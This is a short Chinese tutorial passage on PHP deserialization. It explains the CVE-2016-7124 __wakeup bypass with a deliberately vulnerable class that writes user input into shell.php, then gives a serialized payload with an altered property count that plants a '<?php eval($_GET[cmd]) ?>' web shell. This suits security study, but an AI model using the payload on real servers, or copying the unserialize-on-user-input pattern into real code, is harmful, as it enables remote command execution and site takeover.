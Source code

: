 ![](/PHP反序列化.assets/1.png)

<br/>

### 绕过__wakeup()
这实际上是CVE-2016-7124漏洞。在反序列化时，如果表示对象属性个数的值大于真实的属性个数时就会跳过__wakeup( )的执行。
影响版本
- PHP5 < 5.6.25
- PHP7 < 7.0.10

举个例子
```php
<?php
class Test{
	public $text= "test";
	function __wakeup(){ 
		$this->text="no";	
	}

	function __destruct(){
		$f=fopen('shell.php', 'w');
		fputs($f,$this->text);
		fclose($f);
	}
}

$a=$_GET['text'];
$a_un=unserialize($a);
?>
```
因为 __wakeup函数是在调用unserialize时触发，所以shell.php的内容只能是no，需要绕过 __wakeup才能写入shell
```php
<?php
class Test{
	public $text='<?php eval($_GET[cmd]) ?>';
}
$t=new Test();
echo serialize($t);
?>

当对象属性个数大于真实属性就可以绕过 __wakeup函数
所以只要1替换成2即可
O:4:"Test":1:{s:4:"text";s:25:"<?php eval($_GET[cmd]) ?>";}
O:4:"Test":2:{s:4:"text";s:25:"<?php eval($_GET[cmd]) ?>";}
```
<br/>
